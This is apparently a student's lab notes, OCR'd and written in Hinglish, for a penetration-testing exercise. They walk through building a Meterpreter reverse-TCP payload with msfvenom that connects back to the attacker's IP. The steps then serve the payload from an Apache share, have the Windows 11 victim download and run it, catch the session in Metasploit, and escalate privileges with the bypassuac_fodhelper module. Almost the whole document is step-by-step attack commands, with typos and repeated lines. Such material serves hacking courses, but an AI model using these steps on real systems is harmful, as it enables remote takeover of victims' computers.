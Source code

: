 |  |  |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# File host on apache server

| Command  | Explain command  |
| --- | --- |
| Sudo service apache2 start | apache2 server start hojayega  |
| >ip a   or ipconfig   eth0 search browser to check apache page | ip address ko copy ker ke browser pe pest krege che its worrk or not |
| virus.exe | ek virus.exe name ka folder bataya |
| >sudo mv virus.exe  /var/www/html |  |
| >cd /var/www/html |  |
| ls  |  |
| >sudo mkdir shares |  |
| >sudo mv virus.exe shares |  |
| Go to the browser and search |  |
| Eth0 ip 192.169.1.2/share/virus.exe | search on vecteam and also attacker machine |
| ———————————————————————————————— |  |
| step 1 :-  root user bano. |  |
| step2 :- run **cd** | jump to the root directory. |
| step3 :- **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe**. | make payload using msfvemom. |
| step4 :- Run **mkdir /var/www/html/share** | To create a new directory after the location (/var/www/html) |
| step5 :- Run **chmod -R 755 /var/www/html/share** | permission diya share folder ko. |
| step6 :- Run **chown -R www-data:www-data /var/www/html/share** |  |
| step7 :- **cp /home/attacker/Desktop/Windows.exe /var/www/html/share/**  | jo hum payload creat kiye the use hum share folder me copy krayege. |
| step8 :- **service apache2 start** |  |
| step9 :-  Run **msfconsole** |  |
| step10 :- **use exploit/multi/handler** |  |
| step11 :- **set payload windows/meterpreter/reverse_tcp** |  |
| step12 :-**set lhost,set lport,run** |  |
| step13 :-switch to the **Windows 11** machine |  |
| step14 :-**http://10.10.1.13/share** and press **Enter** | search vecteam browser |
| step15 :-[ ] Click on **Windows.exe** to download the file. —→ Navigate to the **Downloads** folder and double-click the **Windows.exe** file —→ If an **Open File - Security** **Warning** window appears; click **Run**. |  |
| step16 :-to switch to the **Parrot Security** machine —→The Meterpreter session has successfully been opened. |  |
| step17 :-Type **sysinfo** and press **Enter —→ &** Type **getuid** and press **Enter** |  |
| step18 :-Type **background** and press **Enter** |  |
| step19 :-Type **search bypassuac** and press **Enter —→** type **use exploit/windows/local/bypassuac_fodhelper** and press **Enter**. |  |
| step20 :-Type **set session 1** and press **Enter**. —> Type **show options enter. —>** set the **LHOST,**[ ] To set the **TARGET** option, type **set TARGET 0** and press **Enter** —>[ ] To set the **TARGET** option, type **set TARGET 0** and press **Enter**  | exploit on **Windows 11** machine.
